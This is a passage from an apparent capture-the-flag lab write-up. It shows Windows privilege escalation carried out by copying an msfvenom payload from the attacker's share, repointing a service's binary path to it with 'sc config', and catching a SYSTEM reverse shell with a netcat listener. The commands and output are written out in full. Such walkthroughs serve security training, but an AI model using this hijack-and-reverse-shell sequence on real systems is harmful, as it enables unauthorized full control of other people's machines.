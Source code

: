 ```bash
        SERVICE_START_NAME : LocalSystem
```

We see LocalSystem, so it root who run the service.

- First modify the executable of the service with a msfvenom generated payload.

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> copy \\10.10.14.12\share\shell.exe .
*Evil-WinRM* PS C:\Users\svc-printer\Documents> cmd.exe /c "sc config vmtools binpath='C:\Users\svc-printer\Documents\shell.exe'"
[SC] ChangeServiceConfig SUCCESS
```

- Set up a listener and restart the service

I’ve got an error that says **The system cannot find the file specified**, to solve I simply move the payload to another location in the system until it worked.

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> cmd.exe /c 'sc config vmtools binpath="C:\shell.exe"'
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> cmd.exe /c "sc start vmtools"
```

Finally we have a shell as root.

```bash
┌──(kali㉿kali)-[~/tools]
└─$ nc -lvnp 443                                                                                                                                                         
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.108] 62215
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```